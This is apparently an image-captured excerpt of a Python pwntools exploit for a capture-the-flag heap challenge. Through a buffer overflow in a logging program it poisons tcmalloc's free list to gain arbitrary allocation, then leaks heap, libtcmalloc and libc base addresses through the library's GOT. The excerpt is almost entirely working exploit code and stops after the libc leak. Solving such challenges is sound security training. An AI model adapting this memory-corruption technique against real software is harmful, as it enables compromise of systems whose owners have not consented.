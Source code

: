 ```python
    def submit(heap: int) -> int:
        sh.sendline(b'5')
        sh.sendlineafter(b'HEAP', hex(heap).encode())
        sh.recvuntil(b'are: ')
        return int(sh.recv(14), 16)

    newlog(48, False, b'First, let us leak the heap base out:')
    displaylog()
    sh.recvuntil(b'out:')
    heap = u64(sh.recv(8))
    success(f"Get basic heap addr: {heap:#x}")
    heapBase = submit(heap)
    success(GOLD_TEXT(f"Leak heap base: {heapBase:#x}"))

    # 215 for alignment to make the addr on FreeList, 11 for timestr
    newlog(256, False,                          # 1 for trailing \n
           b'Write the addr on FreeList in tcmalloc via stdout, ' \
           b'then alloc one chunk move the addr to thread cache, ' \
           b'so the next chunk will be at the addr, i.e. ' \
           b'arb malloc. Alloc near heap base to get tcmalloc.' \
           .ljust(215 - 12) + b'\n')
    newlog(48, False, b' ' * 5 + p64(heapBase + 0x50))
    newlog(48, True, b'ignored') # overflowing 256 - 48 bytes
    displaylog() # write into buf, trigger buffer overflow

    newlog(48, False, b"Second, arb alloc for libtcmallocBase")
    info(GREEN_TEXT(f"Alloc @ {heapBase + 0x50:#x} to get libtcmalloc"))
    newlog(48, False, b"Crash, NULL required.")
    displaylog()
    displaylog() # we may display twice to see "required"

    sh.recvuntil(b'required.')
    tcmalloc = u64(sh.recv(8)) # get tcmalloc::Static::central_cache_+75408
    libtcmallocBase = tcmalloc - 0x194f30 - 0x46000
    success(GOLD_TEXT(f"Leak libtcmalloc base: {libtcmallocBase:#x}"))

    libtcmalloc.address = libtcmallocBase
    newlog(256, False, b'This challenge may be harder than I thought. ' \
            b'Now this is another padding.'.ljust(253 - 12) + b'\n')
    newlog(64, False, b' ' * 5 + p64(libtcmalloc.got['getpagesize'] - 16))
    newlog(64, True, b'ignored')
    displaylog()

    newlog(64, False, b"Third, we alloc to libtcmalloc.got to leak libc")
    info(GREEN_TEXT(f"Alloc @ {libtcmalloc.got['getpagesize'] - 16:#x} to get libc"))
    newlog(64, False, b'LIBC:')

    if useFSOP:
        newlog(0x160, False, 
                   b"Just a little bit of environment change commits to " \
                   b"heap change. Installing tzdata could cause 512-byte chunk " \
                   b"to have a different offset. I have to leak the offset, " \
                   b"instead of just calculate the offset. See more detail " \
                   b"about this challenge on my blog: https://rocketmadev.github.io" \
                   .ljust(0x160 - 17) + b'OFFSET')

    displaylog()
    displaylog()
    
    sh.recvuntil(b'LIBC:')
    libcBase = u64(sh.recv(8)) - libc.symbols['getpagesize']
    success(GOLD_TEXT(f"Leak libc base: {libcBase:#x}"))
    libc.address = libcBase
```